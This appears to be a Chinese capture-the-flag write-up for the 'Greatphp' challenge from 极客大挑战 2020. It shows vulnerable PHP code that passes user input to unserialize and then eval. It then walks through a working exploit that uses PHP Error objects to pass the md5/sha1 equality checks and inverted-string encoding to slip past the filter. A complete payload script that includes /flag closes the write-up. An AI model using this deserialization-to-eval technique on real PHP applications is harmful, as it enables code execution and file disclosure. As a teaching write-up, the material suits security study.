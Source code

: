 # [极客大挑战 2020]Greatphp

## 知识点

`php反序列化类md5绕过`

`error类`

## 解题

题目给出了`php源码`

```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>
```

发现无法使用常规的`数组绕过`,因为`md5`和`sha1`可以对类进行`hash`，并且会出发这个类的`__toString`方法，且当`eval()`传入一个类对象时，也会调用这个类的`__toString`方法

我们用`php的内置类`来绕过，常用的是`Error`和`Exception`，它们当中有`__toString`方法，当类被当作字符串处理时，就会调用该函数

### 使用Error或Exception绕过hash比较

```php
<?php

error_reporting(0);
$a = new Error("demo", 1);$b = new Error("demo", 2);

if (($a != $b) && (md5($a) === md5($b)) && (sha1($a) === sha1($b))) {
        echo "bypass success";
}
```

![](./img/[极客大挑战2020]Greatphp-1.png)

> 注:`$a`和`$b`构造时要在同一行，不然会错误

### 绕过上部分正则表达式

#### 小括号绕过

因为过滤了`(`、`)`，我们可以使用`include "/flag"`

#### 引号绕过

通过`取反`绕过

#### <?php绕过

使用`<?=`绕过

因为使用`new Error`进入`eval`时，变成`eval("...Error: <?php payload ?>")`，后面还要执行`php`的话需要将前面闭合，加入`?>`，故最终`payload`为

```php
<?php

error_reporting(0);

class SYCLOVER {
        public $syc;
        public $lover;
}

$payload = "?><?=include~" . urldecode("%D0%99%93%9E%98") . "?>";

$a = new SYCLOVER();
$b = new Error($payload, 1);$c = new Error($payload, 2);
$a->syc = $b;
$a->lover = $c;

echo urlencode(serialize($a));
```

![](./img/[极客大挑战2020]Greatphp-2.png)

![](./img/[极客大挑战2020]Greatphp-3.png)

